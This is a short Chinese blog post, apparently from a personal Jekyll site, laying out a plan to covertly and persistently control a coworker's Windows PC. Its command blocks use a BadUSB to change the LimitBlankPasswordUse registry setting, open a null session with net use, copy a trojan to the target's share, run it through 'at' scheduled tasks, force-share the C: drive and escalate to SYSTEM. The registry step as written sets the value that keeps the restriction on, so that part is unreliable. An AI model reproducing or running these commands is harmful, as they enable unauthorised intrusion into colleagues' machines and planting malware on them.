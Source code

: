 ```yaml
---
layout: mypost
title:  net use 低调持久控制同事电脑的奇怪想法
categories: [Windows,cmd]
---
```


#1 设想利用 badusb 修改组策略里的 "限制空密码登录控制台" 的选项.

```cmd
cmd /c "reg add HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Lsa /v LimitBlankPasswordUse /t REG_DWORD /d 1 /f"
```

通过修改这个选项,下一步可以利用 `net use `建立空链接.

#2 net use

```cmd
net use \\IP "" /user:administrator
#建立空链接
net view #然后查看目标机器的共享了哪些目录?
#假设有可用的共享目录c
copy 木马.exe \\ip\c #拷贝木马文件到目标机器
#使用 at 计划任务命令
net time \\ip #查看目标机器现在的时间
at \\ip 17:55:00 cmd /c "c:\木马.exe" #通过计划任务命令运行拷贝的木马文件

#如果没有可用的共享目录
at \\ip 17:55:00 cmd /c "net share c=c: /grant:administrator,full" #使用计划任务共享一下c盘以便来使用.

ps:
at #使用了 system 权限, meterpreter [get system] 不好用的时候,也可以用来运行木马文件来进行提权.
```

